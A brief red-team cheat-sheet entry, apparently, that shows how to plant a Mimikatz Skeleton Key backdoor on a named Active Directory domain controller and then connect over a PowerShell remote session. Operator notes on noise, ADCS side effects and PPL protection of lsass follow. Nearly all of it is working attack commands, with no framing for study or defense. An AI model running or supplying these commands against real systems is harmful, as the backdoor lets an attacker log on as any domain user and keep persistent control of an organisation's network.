Invoke-mimikatz -Command "privilege::debug" "misc::skeleton" -ComputerName WIN-4E30GDH8UQ6.corp.local

Enter-PSSession -ComputerName WIN-4E30GDH8UQ6.corp.local
```
### Notes
- not OPSEC Safe (very noisy)
- Skeleton Key is known to cause issues to ADCS
- if the lsass.exe process is running as PPL (Protected Process Light) the previous command will fail cause getting a handle on a protected process is not allowed.

